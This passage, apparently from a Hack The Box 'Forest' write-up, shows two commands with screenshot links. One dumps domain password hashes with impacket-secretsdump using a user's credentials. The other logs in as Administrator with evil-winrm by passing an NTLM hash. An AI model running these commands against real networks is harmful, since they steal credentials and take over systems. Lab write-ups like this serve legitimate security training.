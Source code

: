 ```
impacket-secretsdump htb.local/blackninja:"pass123@"@10.10.10.161
```

![](/assets/img/HTB/easy/Forest/secretdump.png)
- let try login as Administrator with pass the hash
```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![](/assets/img/HTB/easy/Forest/root.png)